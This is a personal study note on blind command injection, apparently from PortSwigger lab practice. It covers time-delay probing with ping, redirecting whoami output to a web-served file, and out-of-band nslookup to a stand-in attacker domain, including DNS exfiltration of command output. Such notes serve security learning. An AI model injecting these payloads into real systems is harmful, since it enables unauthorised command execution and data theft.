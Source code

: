 ## Blind Command Injection
### Time Delay
Time delay is useful to detect whether or not the application is vulnerable towards CI

This can be accomplished with

```
& ping -c 10 127.0.0.1 &
```

![[Pasted image 20250307161734.png]]

However, time-delay is very specific on which parameter would work

### Input redirection
For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:

`& whoami > /var/www/static/whoami.txt &`

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.

the most annoything about Portswigger is that obfuscation fails??? Like wtf???
![[Pasted image 20250307163241.png]]

### Out-of-band
#### Interaction
Same purpose with time delay, to see if the system is vulnerable
```
& nslookup kgji2ohoyw.web-attacker.com &
```
#### Data exfiltration
To retrieve data alongside the dns

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```